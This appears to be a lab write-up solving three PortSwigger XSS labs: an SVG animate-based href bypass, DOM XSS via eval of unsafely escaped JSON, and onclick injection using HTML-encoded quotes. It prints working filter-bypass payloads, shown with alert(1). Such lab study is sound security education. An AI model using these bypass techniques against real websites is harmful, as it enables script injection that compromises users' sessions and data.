



## 1) Reflected XSS with event handlers and href attributes blocked

* Ref: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked


Note that this lab has **whitelisted tags**, but all events and anchor href attributes are blocked.

Like the first example, we are going to test a search functionality:

<br><br><br>

The first step we can to is to inject different tags like:
* \<body>
* \<h1>
* \
* and so on...

When the tag is not allowed, the web application responds with a *"Tag is not allowed"* error message.
By abusing this behaviour, we are able to retrieve all the whitelisted HTML tags (I suggest you to use the [PortSwigger XSS Cheatsheet page](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)).

Intruder attack results:
* Target + position:  `GET /?search=<§XXX§> `
* Whitelisted tags:
    * \<svg>
        * \<animate>
    * \<image>
    * \<a>
* All the events seem to be blacklisted

So, right now, we have to create a working payload by using the listed tags above only.

We all agree about the fact that the `<a>` element will be the basic to construct our malicious href. 

However, as explained by [mozilla developer page](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/a), it is possible to use a kind of `<a>` element into an `<svg>` one.

>>>The \<a> SVG element creates a hyperlink to other web pages, files, locations in the same page, email addresses, or any other URL. It is very similar to HTML’s \<a> element. SVG's \<a> element is a container, which means you can create a link around text (like in HTML) but also around any shape 
>>>

For example, the following code will draw a black circle which, if clicked, will display an alert popup:

```
<svg viewBox="0 0 100 100">
  <a href="javascript:alert()">
    <circle cx="50" cy="40" r="35"/>
  </a>
</svg>
```

Instead of a circle, we can simply use a [text](https://www.w3schools.com/graphics/svg_text.asp):

```
<svg viewBox="0 0 100 100">
  <a href="javascript:alert()">
    <text x=20 y=20>Click Here</text>
  </a>
</svg>
```
However, remember that the *href* attribute is blacklisted, so we are not able to use this simple payload. 
We need to use the whitelisted `<animate>` element.

The `<animate>` element provides a way to animate an attribute (like href LOL) of an element over time. The syntax is very simple:
* `<animate attributeName=TARGETATTRIBUTE values=VALUES`

If we can alter the *href* attribute, we can insert it into the vulnerable page bypassing the WAF whitelist:
* `<animate attributeName=href values=javascript:alert(1)></animate>`

So, we are now able to create our custom paylaod:

```
targetlab.com/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
```

By injecting it, we were able to alter the `<svg><a>` *href* attribute's value to the classic *javascript:alert(1)*.

Vulnerable page snipped code result:

```
<h1>
   <svg>
      <a>
         <animate attributeName=href values=javascript:alert(1)></animate>
         <text x=20 y=20>Click me</text>
      </a>
   </svg>
</h1>
```
By clicking the "Click me" text, the standard alert(1) popup will be arised.


## 2) Reflected DOM XSS with insecure JSON escaping
* Ref: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected


XXX.com/?search=evil


Into the page we can find the following script inclusion:
* `<script src="resources/js/searchResults.js"></script>`

searchResult.js

```
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName
            ... ... ... ... ... ... ... ... ... ... 
            ... ... ... ... ... ... ... ... ... ... 
```

The *search* function is invoked by the page code.
As we can see in the snipped code above, it presents a *XMLHttpRequest* whose response (if readyState ==4 and status == 200) is directly inserted into the *eval* function:
* `eval('var searchResultsObj = ' + this.responseText);`

Let's see how the request works...

Simple *alert(1)* payload:
<br><br>

as we can see, the double quote (*""*) is escaped...

<br><br>

however, we can try to "break" out from the json object by injecting `\"alert(1)`. As we can see, the backslash character is not escaped:

<br><br>

now, let's fix the result by injecting the full payload `\"-alert(1)}//` (it adds a final comment):

<br><br>

The result is the following code:
```
eval('var searchResultsObj = ' +
  	"{\"searchTerm\":\"\\\\\"-alert(1)}//\",\"results\":[]}")
```

the *eval* function will "generate" the following js code from the input string:

<br><br>


You can test the payload here: 
* https://jsfiddle.net/1oyuhpc5/14/


## 3) Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped


* Ref: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped


>>> When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters.
When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters.Because the browser HTML-decodes the value of the event (ex: onclick) attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds. 
>>>
In this example, the *onclick* event returns the malicious user's input: by submitting the string "http://evil.com"" into the vulnerable input field, this is the result:

```
<section class="comment">
   <p>
        <a id="author" href="http://evil.com" onclick="var tracker= {track(){}};tracker.track('http://evil.com');">evilname</a>
   </p>
   <p>evil comment</p>
   <p></p>
</section>
```

Let's take a closer look at the *onclick* event value:

```
onclick="var tracker= {track(){}};tracker.track('http://evil.com');
```

The fist thing we can try is to exit from the function parameter by injecting a single quote based payload like, for example:
* `http://evil.com');alert(1);//`

However, this is the result:

<br><br><br>

As we can see above, the web application escapes the single quote character.


By the way, as we said before:

>>>Because the browser HTML-decodes the value of the event (ex: onclick) attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.
>>>

So, we can try the following payload (the previous one but HTMl encoded):
* `http://evil.com&#x27;);alert(1);//`

<br>

<br><br>

